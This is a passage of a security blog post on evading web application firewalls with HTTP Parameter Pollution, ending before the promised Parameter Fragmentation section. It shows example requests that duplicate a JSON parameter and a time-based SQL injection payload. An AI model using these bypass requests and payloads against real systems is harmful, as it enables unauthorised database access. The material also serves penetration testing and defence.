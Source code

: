 ```yaml
---
layout: post
title: 'Bypassing WAF by Playing with Parameters'
tags: [Web Security, SQL Injection, Bypassing WAF]
---
```


In this post, I'll explain two similar techniques that can be used to bypass Web Application Firewalls (WAF). These are HTTP Parameter Pollution (HPP) and HTTP Parameter Fragmentation (HPF). While HPP is a well known technique, its detection among WAFs is strong too. HPF is a technique that I have personally used in pentesting engagements to bypass WAFs. Though detection of HPF is difficult, the pre-requisites for it are even more difficult to spot, which makes this attack a rare find. In this post, I'll first cover how bypassing WAF with HPP would work and then we'll dig deep in HPF technique's exploitation.

## HTTP Parameter Pollution

First let's cover the basics of HTTP Parameter Pollution (HPP). When we send a request to the server, there are usually two separate components that are processing the request- the WAF and the webserver. WAF is trying to analyse the request content in order to identify signatures of known attacks. If there's no signature match then request is allowed and it proceeds further to the webserver. If there's a difference in how the WAF is processing request content and how webserver is processing it then we as attackers can leverage this difference to bypass the restrictions of WAF.

How? Let's see an example. Consider this request:

```http
POST /payslip HTTP/1.1
Host: vulnerable.dev
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 49

{
    "month" : "March",
    "year" : "2010"
}
```

Consider the parameter `month` is vulnerable to SQL Injection. We enter a payload in `month` parameter like `March' and sleep(5) --`, but it gets blocked by the WAF. Now, imagine we send a request with two `month` parameters, something like this:

```http
POST /payslip HTTP/1.1
Host: vulnerable.dev
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 73

{
    "month" : "March",
    "year" : "2010",
    "month" : "April"
}
```